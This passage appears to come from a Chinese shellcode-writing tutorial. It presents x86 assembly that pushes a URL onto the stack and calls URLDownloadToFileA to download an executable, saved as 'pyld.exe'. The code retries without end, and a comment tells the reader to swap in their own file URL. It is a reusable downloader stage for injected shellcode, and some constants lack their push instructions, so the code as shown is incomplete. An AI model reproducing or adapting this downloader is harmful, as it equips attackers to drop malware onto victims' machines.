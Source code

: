     add esp,20
    push eax 
    ```

6. 开始下载文件

    ```bash
    ;URLDownloadToFileA(NULL,url,save as,0,NULL)
    download:
    pop eax
    xor ecx,ecx
    push ecx


    ;change it to file url

    0x6578652e  ; exe.
    0x30323032  ; 0202
    0x51514350  ; QQCP
    0x2f455845  ; /EXE
    0x5f515143  ; _QQC
    0x502f5151  ; P/QQ
    0x43502f62  ; CP/b
    0x65777171  ; ewqq
    0x2f6d6f63  ; /moc
    0x2e71712e  ; .qq.
    0x6e776f64  ; nwod
    0x2f2f3a73  ; //:s
    0x70747468  ; ptth



    push esp 
    pop ecx ;https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe

    xor ebx,ebx
    push ebx
    ;save as (no need change it.if U want to change it,do it)
    push 0x6578652e
    push 0x646c7970

    push esp ;pyld.exe
    pop ebx ;save as

    xor edx,edx
    push eax
    push edx
    push edx
    push ebx
    push ecx
    push edx

    call eax



    pop ecx
    add esp,44
    xor edx,edx
    cmp eax,edx
    push ecx
    jnz download ;if it fails to download , retry contineusly
